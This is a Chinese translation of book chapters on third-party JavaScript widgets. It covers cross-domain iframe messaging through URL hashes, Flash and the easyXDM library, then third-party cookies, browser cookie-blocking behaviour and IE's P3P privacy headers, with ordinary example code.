你可以看到，我们创建了一个新的 `ActiveX` 对象 `html`，它作为一个 HTML 文档，并将 `iframe` 添加到其中。该文档恰好与浏览器 UI 断开，因此当 `iframe` 元素的 `window.location` 属性发生变化时，浏览器决定节省资源——不播放伴随的声音。

呼！我们刚刚查看了文档间发送消息的一种回退技术。但还有其他技术，它们都有自己的优缺点。让我们看看另一种方法，它利用类似的浏览器特性来绕过同源策略。

在基于浏览器的 JavaScript 环境中，所有窗口对象都有一个名为 `location` 的属性。该属性可以用于获取当前文档及其 URL 信息。也可以用于将当前文档重定向到另一个 URL：

在与 iframe 和其他窗口一起工作时，该属性是可以访问的，但仅限于只写模式。这意味着你可以将子窗口重定向到另一个 URL，但无法读回该窗口的当前 URL。实施此策略是为了安全措施，以防止恶意网站在隐藏的 iframe 中打开你喜爱的 Web 客户端，并通过读取 URL 的查询字符串或记录重定向来收集信息。

当然，并不是所有的 URL 变化都会导致网络请求。正如你已经学过的，HTML 定义了 URL 的特殊部分——称为*片段标识符*（`fragment identifier`）或 *URL 哈希*（`URL hash`）——旨在指向当前文档内部的某个部分。这部分始终位于 URL 字符串的最后，并由哈希符号 (`#`) 引导：`http://example.com/#products`

你即将学习的回退技术通过更改彼此的片段标识符在窗口之间传输小块数据。由于更改片段标识符不会重新加载页面，你可以在每个帧中保持状态。但记住，你无法读取 `iframe` 的 URL；只能向其写入。因此，在将文档加载到 iframe 时，你必须将当前 URL 传递给它，以免它意外将你的发布者页面重定向到其他地址。然后，你可以通过将 `iframe` 的 `location` 属性更改为原始 URL 加上锚点部分中的数据来开始发送信息。当子窗口向你传回某些数据时，它可以将其父窗口的 `location` 更改为你随初始请求发送的 URL 加上数据（见图 5.3）。

| 步骤 | 操作 |
| :--- | :--- |
| 1. | 创建 `iframe`。 |
| 2. | 将消息放在父窗口 URL 的文档片段中。 |
| 3. | 读取 `location` hash 以获取消息。 |

图 5.3：使用 URL 片段标识符在窗口之间传递消息。

## 116
第 5 章
## 跨域 iframe 消息

下一个列表显示了客户端创建一个新 `iframe` 并使用片段标识符技术监听新消息的示例。

```javascript
var url = window.location.href;
var iframe = document.createElement('iframe');
iframe.style.display = 'none';
iframe.src = 'http://example.com/hashtransport/server.html?url=' + encodeURIComponent(url);
var body = document.getElementsByTagName('body')[0];
body.appendChild(iframe);

var listener = function () {
    var hash = location.hash;
    if (hash && hash !== '#') {
        console.log("Incoming: " + hash.replace('#', ''));
        location.href = url + '#helloworld';
    }
};

window.addEventListener('hashchange', listener);
setTimeout(listener, 100);
```

## 117
## 回退技术

### 列表 5.4 使用分离的文档来静音 IE7 中的点击声

| 方法 | 描述 |
| :--- | :--- |
| 检查是否存在 ActiveX | |
| 使用 ActiveX 创建断开的 HTML 文档 | |
| 将 `iframe` 元素写入文档；然后关闭 | |
| 现在可以获取 ActiveX 对象内部 `iframe` 的引用 | |
| 不带 ActiveX 的浏览器以旧方式创建 `iframe` | |

## 119
## 回退技术

为了在 Flash 对象和其容器之间建立连接，你可以使用 `flash.external.ExternalInterface` 类定义公共接口。该类有一个公共方法 `addCallback`，可用于将 ActionScript 方法注册为可从容器中调用的方法。例如，要在 Flash 对象上定义一个公共的 `postMessage` 方法，你只需要调用 `ExternalInterface.addCallback` 并提供你方法的实现即可：

```actionscript
import flash.external.ExternalInterface;

class Main {
  private static function main(swfRoot:MovieClip):Void {
    ExternalInterface.addCallback("postMessage", {},
      function(channel:String, message:String) {
        /* ... */
      }
    );
  }
}
```

`ExternalInterface` 类还暴露了一个公共的 `call` 方法，可以从宿主机访问 JavaScript 属性和方法。你可以使用该方法通知宿主页面新进来的消息。列表 5.7 中的示例展示了 `onMessage` 函数的实现，它可以通知宿主页面上的外部 JavaScript 方法。我们从一个名为 easyXDM 的流行跨域消息库的源代码中引用了这个示例。我们将在第 5.3 节中介绍 easyXDM。

```javascript
listeningConnection.onMessage = function(message, fromOrigin, remaining) {
  if (fromOrigin !== remoteOrigin) {
    return;
  }
  incomingFragments.push(message);

  if (remaining <= 0) {
    // 转义 \\ 并向下传递
    ExternalInterface.call(prefix +
      "easyXDM.Fn.get(\\\"flash_" + channel + "_onMessage\\\")",
      incomingFragments.join("").split("\\\\").join("\\\\\\\\"),
      remoteOrigin);
    incomingFragments = [];
  } else {
    log("received fragment, length is " + message.length + " remaining is " + remaining);
  }
};
```

这种 ActionScript 的跨域通道实现并不是编写有趣的程序，因此开发者（包括本书的作者）通常会复用 **easyXDM JavaScript 库中列表 5.7 的 `onMessage` 实现**。

列表 5.7
- **队列消息部分**
- **将完整消息传递给提供者**

www.it-ebooks.info

## 120
第 5 章
## 跨域 iframe 消息传递

他人编写并测试的现有开源实现。如果你对 ActionScript 实现的具体细节感兴趣，我们鼓励你查看 easyXDM 的源码。它可以在 GitHub 上找到：https://github.com/oyvindkinsey/easyXDM/。但在深入研究 easyXDM 之前，让我们先聊几个经常让决定依赖 Flash 进行跨域通信的开发者掉进去的“坑”。

### 隐藏 Flash 对象引起的问题

通常，你与之通信的 target iframe 在页面上是隐藏的。这通常通过将元素的 `display` CSS 属性设置为 `none` 或通过将其 `visibility` 属性更改为 `hidden` 来实现。事实证明，在隐藏 iframe 内部加载 Flash 对象会导致一些已知问题。

其中一个问题仅影响 Internet Explorer 7。该浏览器不会初始化任何加载在隐藏 iframe 内部的 Flash 对象。这意味着浏览器会请求 Flash 对象并从服务器加载它，但随后什么都不会发生。要解决这个问题，你只需要以不同的方式隐藏 iframe，即通过将它的 `position` 属性设置为 `absolute`，并将 `top` 属性设置为一个将 iframe 放置在视口之外的值（例如，`-10000px`）。这将欺骗 Internet Explorer，使其认为你的 iframe 仍然可见（尽管在视口之外），浏览器将按预期初始化其中包含的 Flash 对象。

另一个问题出现在较新版本的 Flash 中，它会限制对隐藏 Flash 对象的访问。这可能会限制你在 iframe 之间发送消息的速率。好消息是，这可能只会影响发送大量消息的应用。坏消息是，除了不隐藏容器 iframe 之外，我们不知道其他良好的替代方案。通常，给 iframe 一个最小可识别的宽度和高度（据报道 20px 是有效的）会让 Flash 正常处理它。

考虑到所有因素，当 `postMessage` 不可用时，Flash 是一种极佳的回退技术。是的，它存在隐藏 iframe 容器的问题，需要用户安装 Flash，并且需要用户发起网络请求来加载中间 Flash 对象。但让 Flash 具有价值的是它不需要发布者在其服务器上托管任何中间文件。由于如此，许多第三方服务在回退到 `window.name` 或 `window.hash` 之前使用 Flash。

*5.3*
*使用 easyXDM 进行简单的跨域消息传递*

现在你已经阅读了许多关于跨域通信的内容并学会了这些技术，你可能想知道有一个经过充分测试的 JavaScript 库可以处理所有的痛点，并提供一个相对简单的 API，在托管在不同域名的框架之间往返消息。该库由 Øyvind Sean Kinsey 编写，名为 *easyXDM*（简单的跨域消息传递）。其核心是 easyXDM 提供了一个传输栈，能够在主文档和该文档内部的 iframe 之间传递字符串消息。该库实现了我们在本章讨论的各种跨域消息传递技术，并选择最适合浏览器的。对于现代浏览器，easyXDM 使用 `window.postMessage`，对于 IE6 和 7，它使用 `FlashTransport`。在无法可靠检测使用何种传输的情况下，库将回退到 `HashTransport`。easyXDM 的另一个伟大之处在于——除了简单的消息——它还允许你定义可以调用 iframe 中远程方法的特殊接口。我们将在本章稍后部分介绍如何操作，但现在让我们看看如何使用 easyXDM 发送和接收简单的消息。在本节中，我们将使用 Camera Stork 作为示例。请注意，在本节中我们将 easyXDM 的术语来描述通信双方。库描述了两个部分：消费者（加载 iframe 的文档）和提供者（iframe 内部的文档）。为了在消费者和提供者之间通信，easyXDM 使用了一个传输栈。库支持的所有传输见表 5.2。这些传输应该很熟悉：它们是我们在本章为止涵盖的窗口消息回退技术，加上一些未涵盖的内容。熟悉这些传输将有助于以后阅读 easyXDM 的文档。

*5.3.1*
*加载和初始化 easyXDM*

在第 2 章，你学习了如何通过将外部 JavaScript 库放在全局命名空间对象随你的第三方应用程序发布，easyXDM 也一样。像 jQuery 一样，easyXDM 通过名为 `noConflict` 的特殊方法提供*冲突模式*。以下代码段演示了如何使用该方法将 easyXDM 库的副本放在 Stork 命名空间中：

```javascript
Stork.easyXDM = easyXDM.noConflict('Stork');
```

你会注意到该方法接受一个形式参数——代表你在全局窗口对象上的命名空间对象的字符串。这是为了让 easyXDM 在使用同源时能够通过全局窗口对象定位自己。

表 5.2 easyXDM 支持的传输

| 传输 | 如何支持 |
| :--- | :--- |
| `PostMessageTransport` | 使用 `window.postMessage` API |
| `SameOriginTransport` | 当双方位于同一域时使用 `window.parent` |
| `HashTransport` | 使用 `window.location.hash` |
| `NameTransport` | 使用 `window.name` 属性（需要额外设置） |
| `FlashTransport` | 使用 Adobe Flash 对象（需要额外设置） |
| `FrameElementTransport` | 使用 `window.frameElement` 属性（仅针对旧版本的 Firefox） |

www.it-ebooks.info

## 122
第 5 章
## 跨域 iframe 消息传递

传输。你不可能作为第三方应用程序使用这种传输方式（因为你正在与不同的源交互），但为了安全起见，你应该指定此参数。此外，easyXDM 库必须在消费者（父页面）和提供者（iframe）页面同时存在。这意味着你需要在两个地方加载该库，但不需要任何额外的配置；easyXDM 会自动检测它处于哪个上下文中。

另一个重要点是，你不需要用 easyXDM 手动创建任何 iframe——它会为你处理这些工作。你只需要创建一个 `easyXDM.Socket` 的新实例用于发送简单消息，或者创建一个 `easyXDM.Rpc` 的新实例用于在消费者和提供者之间配置 JSON-RPC 接口。`Socket` 和 `Rpc` 构造函数都接受多种不同的选项，如表 5.3 所示。

表 5.3：easyXDM 选项

| 选项 | 描述 | 消费者或提供者 |
| :--- | :--- | :--- |
| `remote` | 提供者的路径。easyXDM 将创建一个以 `remote` 的值为 URL 的 iframe 并加载它。 | 消费者 |
| `onReady` | 通信建立后调用的函数。 | 双方 |
| `local` | 消费者域名下 `name.html` 的路径，由 `NameTransport` 使用。 | 双方 |
| `swf` | `easyxdm.swf` 文件的路径，由 `FlashTransport` 使用。 | 双方 |
| `swfNoThrottle` | 如果你希望你的 iframe/swf 对象被放置在可见位置以避免新版本 Flash 的限制，则将其设置为 `true`。 | 双方 |
| `swfContainer` | easyXDM 放置 swf 对象的 DOM 元素。 | 双方 |
| `lazy` | 如果你希望将 iframe 的创建推迟到第一次使用 `easyXDM.Socket` 时，则将其设置为 `true`。 | 消费者 |
| `container` | easyXDM 放置 iframe 元素的 DOM 元素。默认是 `body`。 | 消费者 |
| `props` | 代表你希望你的 iframe 拥有的属性的 JavaScript 对象。 | 消费者 |
| `remoteHelper` | 提供者域名下 `name.html` 的路径，由 `NameTransport` 使用。 | 消费者 |
| `hash` | 如果你想使用 hash 而不是查询字符串将初始参数传递给 iframe（有助于缓存），则将其设置为 `true`。 | 消费者 |
| `acl` | 域名字符串或域名数组。如果你只想让特定域名消费提供者，请设置此项。 | 提供者 |

## 123
## 使用 easyXDM 进行简单的跨域消息传递

如表 5.3 所示，`Socket` 和 `Rpc` 构造函数都接受一个名为 `onReady` 的特殊回调函数。该函数将在提供者 iframe 完全加载并且其内部的 easyXDM 实例初始化后被调用。在你的回调函数触发后，就可以安全地往返发送消息了。我们将继续向你展示如何使用 `easyXDM.Socket` 发送简单消息，然后使用 `easyxdm.RPC` 演示更复杂的 RPC 示例。

### *5.3.2 使用 `easyXDM.Socket` 发送简单消息*

`easyXDM.Socket` 对象非常简单：它只是 easyXDM 提供的消息传输栈的封装。它允许你使用类似于 `window.postMessage` API 的接口在窗口之间发送和接收消息。

要开始使用，你需要使用 5.3.1 节中概述的选项初始化一个新的 `Socket`。以下示例演示了在消费者（父页面）上创建一个新的 `easyXDM.Socket` 最小实例：

```javascript
var socket = new Stork.easyXDM.Socket({
  remote: "http://camerastork.com/xdm/provider/",
  onMessage: function (message, origin) {
    console.log("Received message", message, "from origin", origin);
  }
});
```


第一个选项`remote`指向提供者的 URL——即将在 iframe 内部加载的目标网页。第二个选项`onMessage`指定了一个回调函数，每当你的 Socket 接收到新消息时该函数就会被调用。你可以将`onMessage`回调认为是你在 5.1.2 节中学过的浏览器普通`onmessage`事件的封装。`onMessage`接收两个形式参数：`message`（包含实际消息体）和`origin`（包含发送者的源值）。与`window.postMessage` API 一样，检查源是否是你信任的源而不是试图破坏你应用程序的恶意主机是一个好主意。

现在，你只在消费者端开启了一个 socket。为了实现双向通信，你还需要在提供者端创建一个 Socket。这由以下代码处理，提供在提供者 URL 上：

```javascript
var socket = new Stork.easyXDM.Socket({
  onMessage: function (message, origin) {
    console.log("Received message", message, "from origin", origin);
  }
});
```

注意到遗漏了什么吗？提供者不需要指定`remote`属性，因为它没有加载任何额外的 iframe——它只是与父窗口（消费者）进行通信。

## 跨域 iframe 消息传递

此时，你的消费者和提供者 socket 都已加载并配置好接收消息。因此，下一步行动实际上是*发送*消息。要发送消息，你需要调用 socket 实例上的`postMessage`方法：

```javascript
socket.postMessage("Hello, World!");
```

取决于你从哪里发送消息——消费者还是提供者——另一方通信方将接收该消息并调用其`onMessage`处理程序，并将 "Hello, World!" 作为其第一个参数。图 5.4 展示了 easyXDM 的完整初始化过程。由于浏览器支持 easyXDM 的任何方法，你刚刚学会了如何通过`easyXDM.Socket`发送和接收消息。虽然对于简单的应用程序，发送消息就足够了，但在经验中，你可能需要在消费者和提供者之间维护某种状态并定义双方都可以访问的接口。

1. 在`camerastork.com/xdm/provider`创建 socket 以。
2. easyXDM 加载提供者。
3. iframe 中的代码创建 socket。
4. 任何页面的代码现在都可以调用另一个页面的回调。

图 5.4：`easyXDM.Socket`允许在文档之间传递消息。

## 使用 easyXDM 进行简单的跨域消息传递

### 使用 easyXDM 定义 JSON-RPC 接口

RPC（全称代表*远程过程调用*）是一种程序在另一个地址空间执行过程或函数的方法，而无需显式编码细节。地址空间可以是内存、磁盘、网络主机或其他任何实体。在历史上，通常为大公司工作的程序员试图通过设计复杂的协议来更容易调用远程实体的过程。他们提出了诸如通用对象请求器架构（CORBA）和简单对象访问协议（SOAP），这些协议至少其中一位作者仍会梦到。抛开这些编程过去的阴影不谈，RPC 的是有用的，特别是当你正在开发第三方应用程序时。

让我们回到 Camera Stork 组件。如果你还记得，该组件需要接收用户的产品评论并将其传输到 Stork 服务器。使用简单的消息传递系统——无论是`window.postMessage`还是`easyXDM.Socket`——你必须想出一种消费者和提供者都可以使用的协议。由于我们都是 JavaScript 开发者，你可能会选择 JSON 作为协议的默认格式。因此，一个发布评论的消息看起来如下：

```json
{
  "commandId": 235711,
  "command": "postReview",
  "productId": 31415,
  "userId": 31337,
  "text": "This camera is great!"
}
```

提供者将接收此消息，处理它并发送到 Stork 服务器。然后，根据服务器的响应，提供者将向消费者发送消息描述操作是否成功。消费者和提供者都需要维护命令的状态——因此`commandId`参数——否则消费者在收到响应时不知道它属于哪个操作。如你所见，这种实现可能会很快变得复杂。幸运的是我们，`easyXDM.Rpc`为我们处理了这一切。

使用`easyXDM.Rpc`你可以指定本地函数和远程函数。本地函数就如其名一样——在当前窗口上下文中实现的本地函数。相反，远程函数实际上是在嵌入的文档内部实现的。由于你在此上下文中并没有实际实现远程函数，`remote`选项接受一个代表远程函数的存根列表。

下面的列表显示了如何在消费者端创建`easyXDM.Rpc`实例。

```javascript
var rpc = new Stork.easyXDM.Rpc(
  {
    remote: "http://camerastork.com/xdm/provider/"
  },
  {
    local: {
      redrawReviews: function (reviews, onSuccess, onFailure) {
        try {
          Stork.redrawReviews(reviews);
          onSuccess();
        } catch (exc) {
          onFailure(exc.message);
        }
      },
      remote: {
        postReview: {},
        editReview: {}
      }
    }
  }
);
```

函数可以接受任意数量的参数，但传递给函数的最后两个参数总是成功和失败回调处理器。如列表 5.8 所示，每个 RPC 函数都应该调用这些回调来指示其成功或失败。与`easyXDM.Socket`一样，你必须为提供者（provider）初始化`easyXDM.Rpc`。还需要注意，你必须显式定义你计划从消费者端调的所有函数。下一个列表显示了在提供者端创建`easyXDM.Rpc`实例的示例。

```javascript
var rpc = new Stork.easyXDM.Rpc({},
  {
    local: {
      postReview: function (prodId, userId, text, onSuccess, onFailure) {
        try {
          var response = sendReview(prodId, userId, text);
          onSuccess(response);
        } catch (exc) {
          onFailure(exc.message);
        }
      }
      // ... (Listing 5.9 将在下一页继续)
    }
  }
);
```

**列表 5.8**：在消费者端创建`easyXDM.Rpc`实例
**列表 5.9**：在提供者端创建`easyXDM.Rpc`实例

| 消费者（主机）暴露的本地 RPC 方法 | 声明在提供者（iframe）上实现的远程 RPC 方法 | 使用`XmlHttpRequest`向服务器提交评论的辅助函数（定义在其他地方） | 返回成功响应 | 返回失败报告 |
| :--- | :--- | :--- | :--- | :--- |
| | | | | |

```javascript
// ...（接自第 151 页）
    },
    editReview: function (prodId, text, onSuccess, onFailure) {
      /* ... */
    }
  },
  remote: {
    redrawReviews: {}
  }
);
```

图 5.5 展示了如何创建提供者和消费者`easyXDM.Rpc`实例。easyXDM 处理了通信细节！

1. 创建一个 RPC 实例，实现本地函数 A，并声明提供者将定义的函数 B。
2. easyXDM 在 iframe 中加载提供者 URL。
3. 提供者代码创建另一个 RPC，实现主窗口期望的远程函数 B。
4. 现在，主窗口中的代码可以调用 iframe 中的`B()`，而 iframe 中的代码可以调用主窗口上的`A()`。它们可以通过这种方式互相传递 JSON 对象！

**RPC 1**
- local: A(){...}
- remote: B

**RPC 2**
- local: B(){...}
- remote: A

**图 5.5**：使用`easyXDM.Rpc`调用外部文档中的远程函数

现在你已经配置了消费者和提供者的 RPC 函数，是时候调用它们了。要做到这一点，只需在`rpc`实例本身上调用所需的远程函数。下面的列表演示了如何调用列表 5.9 中声明的`postReview`远程函数。

```javascript
function onSuccess() {
  console.log("Review posted successfully!");
}

function onFailure(message) {
  console.log("Review posting failed with message", message);
}

rpc.postReview(31415, 31337, "This camera is awesome!", onSuccess, onFailure);
```

easyXDM 的另一个巧妙之处是，它可以智能地拦截源自 RPC 函数的异常，并将异常对象传递给`onFailure`回调函数。这意味着在列表 5.9 的代码中，你可以省略`try/catch`块——easyXDM 会自动处理异常情况，如下所示：

```javascript
var rpc = new Stork.easyXDM.Rpc({},
  {
    local: {
      postReview: function (prodId, userId, text, onSuccess, onFailure) {
        var response = sendReview(prodId, userId, text);
        onSuccess(response);
      },
      editReview: function (prodId, text, onSuccess, onFailure) {
        /* ... */
      }
    },
    remote: {
      updateReviews: {}
    }
  }
);
```

在后台，easyXDM 使用所有现代浏览器中都提供的原生 JSON 序列化器。对于旧浏览器，它会回退到流行的 JSON2 库。在创建`easyXDM.Rpc`实例时通过设置特殊的`serializer`属性，也可以指定自己的序列化器：

**列表 5.10**：调用使用`easyXDM.Rpc`创建的远程函数
**列表 5.11**：在提供者端创建`easyXDM.Rpc`实例

## 总结

```javascript
var rpc = new Stork.easyXDM.Rpc({},
  {
    local: {
      postReview: function () { /* ... */ }
    },
    remote: {},
    serializer: JSON
  }
);
```


注意，你的序列化器必须与 JSON 对象具有相同的方法。具体来说，它必须提供两个方法：`stringify` 将 JavaScript 对象序列化为字符串，以及 `parse` 将字符串转换回 JavaScript 对象。如果你想为什么要更改默认序列化器，理由非常充分：有时你无法信任发布者页面上的 JSON 对象。如果消费者的序列化（反序列化）方式与提供者（iframe 文档）不同，你的应用程序可能会崩溃。

## 销毁 EASYDM 实例

大多数情况下，会让 iframe 一直运行到用户离开页面或关闭浏览器。但有时你需要手动销毁 easyXDM 实例。`easyXDM.Socket` 和 `easyXDM.Rpc` 都提供了 `destroy` 方法，可以为你清理所有内容，包括从 DOM 中移除 iframe。

## 130
## 第 5 章
### 跨域消息

迟早，你会发现自己能够熟练地处理浏览器的特性，并使用 easyXDM 来满足你的跨域消息需求。到此时，我们假设你可以在发布者页面上加载第三方应用程序、在 DOM 中渲染元素、与你域名下的 iframe 通信，以及在服务器之间传输数据。但我们还没有结束。我们还有一些值得注意的话题要涵盖，包括身份验证、安全故障排除，这些将在后续章节中介绍。你将学习如何在不同的网站上验证用户身份、如何让你的小部件更快、更安全，以及在第三方应用程序发布后的调试技术。但请拍拍自己的手，因为最困难的部分已经完成了。剩下的都会非常顺顺利！

## 131
## 身份验证与会话

到此为止，我们实现的都是与用户无关的应用程序。无论是谁加载了你的第三方脚本，他们体验的都是同一个版本的应用程序。但是，如果你的应用程序能够识别当前（或之前）登录了你服务的用户会怎样？利用你可能拥有的关于该用户的任何数据，你可能为他们提供定制化且改进后的体验。

你可能以前在第三方应用中见过这种行为。例如，Facebook 上无处不在的“赞”按钮知道你当前是否已登录了 Facebook。有时，它会向你显示你的朋友是否已经“赞”了你正在查看的内容。或者，如果你自己点击了“赞”按钮，它会自动将该内容分享到你的 Facebook 新闻动态中，而不会提示你登录。

你可以将这些功能中的某些引入 Camera Stork 产品小组件中。不——你*必须*这样做。如果你能识别出小组件的查看者已经登录了你的 camerastork.com ，你就可以增强他们查看小组件的体验。例如，你可以告诉他们是否已经拥有该产品。如果他们之前对该产品进行过评价，你可以记住并显示他们对该产品的评分。或者，你可以向他们展示该产品目前在他们的愿望列表中，这可能会重新激发他们的购买兴趣。

这些都是很棒的功能。但为了实现它们，你的应用程序需要知道用户当前是否已通过你的服务进行了身份验证。对于标准的 Web 应用程序来说，这通常是一个直接的操作，但对于第三方脚本来说则是另一回事。这是因为浏览器可以阻止第三方应用程序读取或设置 cookie，而 cookie 是在浏览器请求之间持久化会话的主要成分。这是一个毁灭性的打击，但并不意味着你运气用尽——还有少数针对特定浏览器的解决方案和回退方案可以帮助你在面对歧视性浏览器设置时持久化会话。

在本章中，你将学习什么是第三方 cookie、不同浏览器如何禁用它们，以及这对你的应用程序产生什么影响。之后，我们将查看在特定浏览器上设置第三方 cookie 的解决方案，以及在没有此类解决方案时使用的回退技术。最后，我们将查看一些关于 cookie 的安全问题，以及你可以采取的防止这些问题的步骤。

本章涵盖
- 第三方 cookie 简介
- 从你的第三方应用程序进行身份验证和会话持久化
- 第三方 cookie 被禁用时的解决方案
- 防御会话劫持的技术

首先：到底什么是第三方 cookie？

## 6.1
### 第三方 cookie

当普通的 Web 应用程序想要持久化某种会话或状态时，它们会使用 cookie。cookie 是浏览器在 HTTP 请求之间持久化的微小数据——在此否则，HTTP 是一个无状态的协议。当用户登录 Web 应用程序时，服务器会返回一个标识该用户会话的 cookie。该 cookie 被保存在浏览器中，并在后续向同一网站的每个 HTTP 请求中发送回服务器。服务器使用此 cookie 来识别用户，并在响应中渲染任何用户特定的数据。

当 cookie 传输到第三方域名或从第三方域名传输时，浏览器会将该 cookie 视为第三方 cookie。所以，如果你正在访问 publisher.com 的网站，并且在该页某处请求了来自 camerastork.com 的资源，那么在用户浏览器和 camerastork.com 之间传输的任何 cookie 都被视为第三方的。这包括加载在外部 iframe 内部的资源——在域名与父文档域名不同的 iframe 内部写入或发送的 cookie 也被视为第三方。

回顾一下，表 6.1 强调了在什么情况下 cookie 被视为第三方的。

### 第三方 cookie

第三方 cookie 术语不仅仅是语义问题。因为第三方并不一定被浏览器用户认可，这些应用程序可以在无需用户同意或知情的情况下（在它们自己的域名上）设置和读取 cookie。这可能导致隐私问题，使得分布式的第三方应用程序有权通过唯一标识 cookie 来跟踪用户的浏览历史。正因为这些原因，某些浏览器中默认禁用了第三方 cookie，而在另一些浏览器中，这是一个推荐的设置。

本节完全关于熟悉第三方 cookie。我们将查看你如何使用第三方 cookie 来设置和恢复应用程序状态。然后，你将看到如何在浏览器中禁用第三方 cookie，以及此设置如何不同地影响浏览器。最后，我们将介绍如何检测第三方 cookie 是否被禁用，以及如何优雅地恢复。

#### 6.1.1
### 设置和读取会话

让我们来看场景：Camera Stork 小组件使用第三方 cookie 来存储用户的会话。假设你为 Camera Stork 小组件添加了一个标记为“登录”的链接，点击该链接会显示一个包含用户名和密码输入的表单（见图 6.1）。出于安全考虑，此表单和整个小组件都包含在托管在 camerastork.com 上的外部 iframe 中。这是为了防止发布者页面上的代码访问用户名和密码输入框。

表 6.1：在与父文档不同的域名上设置的 cookie 被视为第三方。

| 起源 | Cookie 域名 | 是否为第三方 |
| :--- | :--- | :--- |
| publisher.com | publisher.com | 否 |
| publisher.com | camerastork.com | 是 |
| camerastork.com (来自托管在 publisher.com 上的 iframe) | camerastork.com | 是 |


Mikon E90 SLR
$599.99 – 立即购买
登录并评价
4.3/5.0 • 176 条评论


用户名
密码
登录

Mikon E90 SLR
图 6.1：点击登录链接将显示一个用于在 Stork 服务进行身份验证的表单。

当表单提交时，它会触发对你服务器端点的 AJAX 调用。如果提交的用户名和密码有效，应用程序将在数据库中生成一个新的会话。服务器返回一个带有用户信息的 JSON 响应，更重要的是设置一个包含新会话 ID 的 cookie。这是 HTTP 响应：

```
HTTP/1.1 200 OK
Date: Wed, 28 Sep 2011 14:33:37 GMT
Content-type: application/json
Set-cookie: sessionid=66d2520a7736dac4db658cdd

{ "username':'johndoe', 'first':'John', 'last':'Doe' }
```

现在你已经以 JSON 格式获取了用户信息，你可以更新小组件以反映用户已登录。例如，你可以通过将登录链接替换为用户的全名。此 HTTP 响应中更重要的是 Set-cookie 头部。这将会将会话 ID 持久化在存储在用户浏览器中的 cookie 中。当用户随后访问包含你小组件的任何发布页面时，你的应用程序将启动浏览器请求以获取产品数据，就像以前一样。这一次，浏览器会将存储的 cookie 作为 HTTP 请求的一部分传递：

```
GET /products/1337.json HTTP/1.1
Host: camerastork.com
Accept: application/json
Cookie: sessionid=66d2520a77
```

再次如之前，你会将用户的标识信息渲染到小组件中，以在视觉上指示他们已登录。

#### 6.1.2
### 禁用第三方 cookie

正如我们在本章目前多次提到的，第三方 cookie 可以被浏览器禁用。通常，这是一种用户可的浏览器设置，其中¹ 生成和存储会话超出了本书的范围。如果你不确定它是如何工作的，我们建议学习一个 Web 应用程序框架（如 Ruby on Rails 或 Python 的 Django 框架）并阅读相关文档。

## 第三方 Cookie

用户必须费一番劲才能禁用它们（见图 6.2）。但在某些浏览器中，第三方 Cookie 默认是禁用的。

如果禁用了第三方 Cookie，是否意味着我们刚刚在 6.1.1 节中介绍的会话恢复场景将会生效？答案是*可能*。不同的浏览器对“禁用第三方 Cookie”这一状态的含义有不同的解释。某些浏览器会禁用对 Cookie 的所有读取和写入操作，使其完全无法使用。另一些浏览器会阻止设置新的 Cookie，但如果某个第三方域名已经存在 Cookie，浏览器仍然会在向该域名发送的任何 HTTP 请求中带上该 Cookie。

表 6.2 描述了每个主流浏览器在禁用第三方 Cookie 时的行为，按限制程度从高到低排序。*Send*（发送）意味着浏览器将向第三方域名发送已存（existing）的 Cookie，而 *Write*（写入）意味着可以在第三方域名上设置 Cookie。

从表 6.2 可以看出，在禁用第三方 Cookie 方面，Chrome 和 Firefox 是限制最严厉的浏览器。它们既不会将之前存储的 Cookie 发送到第三方服务器，也不会允许为这些域名存储新 Cookie。不幸的是，这些浏览器目前没有已知的解决办法，这意味着 6.1 节中的会话场景完全失效了。这并不意味着会话在这些浏览器中完全没戏——我们将在本章稍后介绍一种无 Cookie 的方法。

表 6.2：禁用第三方 Cookie 时的浏览器行为

| 浏览器 | Send | Write | 默认禁用 |
| :--- | :--- | :--- | :--- |
| Chrome | 否 | 否 |
| Firefox | 否 | 否 |
| Internet Explorer (所有版本) | 是 | | 否 (但请见 6.1.3 节) |
| Opera | 是 | | 否 |
| Safari (包括移动端) | 是 | 有 | 是 |



图 6.2：在 Google Chrome 14 中禁用第三方 Cookie

IE、Opera 和 Safari 更加宽容。在这些浏览器中，如果某个特定域名已经存储了 Cookie，那么任何发往该域名的 HTTP 请求都将传输该 Cookie，即使是发往第三方域名。换句话说，如果你的应用程序能够在这些浏览器中找到设置 Cookie 的方法，它就可以在每次加载时继续恢复用户的会话。我们将在本章稍后向你展示如何利用这一优势。

### 新版本的浏览器可能会以不同方式处理 Cookie

请注意，表 6.2 中的值代表的是目前的浏览器行为状态，并且在未来可能会发生变化。事实上，在编写这本书的过程中，我们不得不修改过此表。曾几何段时间，Chrome 的限制较少，并且在关联浏览器设置被禁用的情况下允许传输第三方 Cookie。这种情况在 2012 年初 Chrome 18 版本的发布后发生了变化，该版本引入了更严格的 Cookie 行为。

### 6.1.3 Internet Explorer 和 P3P 头部

在继续之前，你可能已经注意到在表 6.2 的*默认禁用*列中，Internet Explorer 旁边有一个注释。默认情况下，Internet Explorer 采用中等安全策略，该策略会对未提供*紧凑型隐私策略*（compact privacy policy，见图 6.3）的站点禁用第三方 Cookie。紧凑型隐私策略是隐私偏好平台规范（见 http://www.w3.org/TR/P3P/）的一部分，该协议由 W3C 设计（P3P；隐私偏好平台项目），允许网站声明其意图如何使用从用户处收集的数据。

这意味着，为了为 Internet Explorer 用户（使用默认安全设置）设置第三方 Cookie，你需要在返回资源时带上特殊的 P3P HTTP 头部，声明你的服务打算如何使用用户数据。该头部需要随资源的*所有* HTTP 响应一起返回，而不仅仅是设置 Cookie 的响应。这意味着静态资源、AJAX 端点、iframes——所有内容。

这里是一个指定了紧凑型隐私策略的资源返回的 P3P 头部示例：

`P3P: CP="ADM DEV PSA COM OUR STP IND"`

这些三个字母的值都是 P3P 规范的一部分，代表了服务将为了什么、与谁以及以何种方式使用用户的数据。表 6.3 详细说明了这些值。

请注意，此表仅描述示例 P3P 响应中的值。P3P 规范中实际上有*几十*种可能的值，多到我们无法在此列出所有。当你为要返回的资源创建自己的 P3P 头部时，请确保它准确反映了你业务的实践，而不是盲目地照抄（从此书或其他处）。如果你需要生成 P3P 策略的帮助，请查看 p3ptoolbox.com 的资源。

表 6.3：P3P 值及其描述

| 值 | 描述 |
| :--- | :--- |
| ADM | 信息可能用于技术支持。 |
| DEV | 信息可能用于增强计算机系统。 |
| PSA | 信息可能用于评估或通过其他审查站点。 |
| COM | 信息可能用于营销。 |
| OUR | 关于正在使用的计算机系统的信息。 |
| STP | 保留信息以满足所述目的。 |



图 6.3：没有隐私策略的 Internet Explorer 默认设置

### 验证与会话

### P3P 协议的状态

